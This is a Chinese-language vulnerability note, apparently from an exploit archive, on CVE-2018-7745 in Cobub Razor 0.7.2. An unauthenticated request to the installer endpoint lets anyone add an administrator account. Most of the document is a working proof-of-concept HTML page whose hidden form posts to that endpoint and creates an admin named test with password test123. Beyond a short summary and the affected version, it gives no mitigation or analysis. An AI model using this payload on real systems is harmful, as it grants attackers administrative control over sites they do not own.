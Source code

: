 # CVE-2018-7745 Cobub Razor 0.7.2 越权增加管理员账户

## 一、漏洞简介

Cobub Razor 0.7.2越权增加管理员账户漏洞，在不登录的情况下发送特定数据包，可新增管理员账号。保存如下利用代码为html页面，打开页面将增加test/test123的管理员账号，漏洞发现者已经将漏洞信息通过issues告知作者。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

POC


```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://url/index.php?/install/installation/createuserinfo" method="POST">
      <input type="hidden" name="siteurl" value="http://127.0.0.1/" />
      <input type="hidden" name="superuser" value="test" />
      <input type="hidden" name="pwd" value="test123" />
      <input type="hidden" name="verifypassword" value="test123" />
      <input type="hidden" name="email" value="12@qq.com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```